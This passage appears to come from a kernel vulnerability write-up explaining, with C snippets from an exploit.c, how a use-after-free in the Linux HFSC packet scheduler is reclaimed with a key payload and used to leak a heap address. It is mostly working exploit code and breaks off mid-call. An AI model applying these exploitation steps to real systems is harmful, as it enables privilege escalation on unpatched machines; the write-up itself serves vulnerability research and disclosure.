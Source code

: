 ### Step2: Reclaim `UAF_hfsc_class` with `struct user_key_payload` object.
[[exploit.c#L1111]](../exploit/lts-6.6.64/exploit.c#L1111)
```c
fake_rb_node = (struct rb_node *)
	(	
		user_key_payload_write_buffer + \
		struct_hfsc_class_member_el_node_offset - \
		sizeof(struct user_key_payload)
	);

fake_rb_node->__rb_parent_color = 0 | RB_BLACK;
fake_rb_node->rb_right = (struct rb_node *)(0);
fake_rb_node->rb_left = (struct rb_node *)(0);

heap_read_primitive->key_A = user_key_payload_alloc(
	heap_read_primitive->key_A_desc,
	user_key_payload_write_buffer,
	sizeof(user_key_payload_write_buffer)
);
```
- Let's call this `struct user_key_payload` as `user_key_payload_A`. Reclaim success will lead to:
```c
UAF_rb_node->__rb_parent_color == NULL | RB_BLACK;
UAF_rb_node->rb_right == NULL;
UAF_rb_node->rb_left == NULL;
UAF_hfsc_class->cl_e == 0;
```

### Step3: Leak `struct hfsc_class` object heap address by perform the following things:
- Create `struct hfsc_class` object with `HFSC_RSC` flag. Let's call this class_B. There's a default qdisc linked with class_B in the creation process.
[[exploit.c#L1128]](../exploit/lts-6.6.64/exploit.c#L1128)
```c
struct tc_service_curve rsc_B = { .m1 = 1, .m2 = 1, .d = 0 };
create_hfsc_class(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_B,
	&rsc_B,
	NULL,
	NULL
);
```
- Configure `Victim_Qdisc` to route enqueued packet to qdisc linked with class_B. [[exploit.c#L1139]](../exploit/lts-6.6.64/exploit.c#L1139)
```c
change_hfsc_qdisc_route(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	TC_H_ROOT,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_B
);
```
- Enqueue new packet throught `Victim_Qdisc` will eventually lead to `init_ed(class_B)` -> `eltree_insert(class_B)`.
After the enqueue process success, `Victim_Qdisc->q.qlen == 0`. Therefore, we can keep `->dequeue()` out of the way and keep `class_B` object on the tree.
[[exploit.c#L1147]](../exploit/lts-6.6.64/exploit.c#L1147)
```c
trigger_qdisc_enqueue(
```